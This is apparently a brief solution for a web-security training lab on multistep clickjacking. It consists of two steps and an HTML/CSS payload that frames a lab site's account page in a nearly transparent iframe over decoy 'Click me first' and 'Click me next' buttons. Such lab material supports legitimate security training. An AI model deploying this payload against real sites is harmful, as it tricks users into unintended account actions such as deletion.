 1. Log in;
2. Access the exploit server and paste the following payload

```html

<style>
	iframe {
		position:relative;
		width: 500px;
		height: 700px;
		opacity: 0.00001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top: 330px;
		left: 50px;
		z-index: 1;
	}
   .secondClick {
		top:285px;
		left:225px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a39004d04ec2ab683eef060005e0072.web-security-academy.net/my-account"></iframe>


```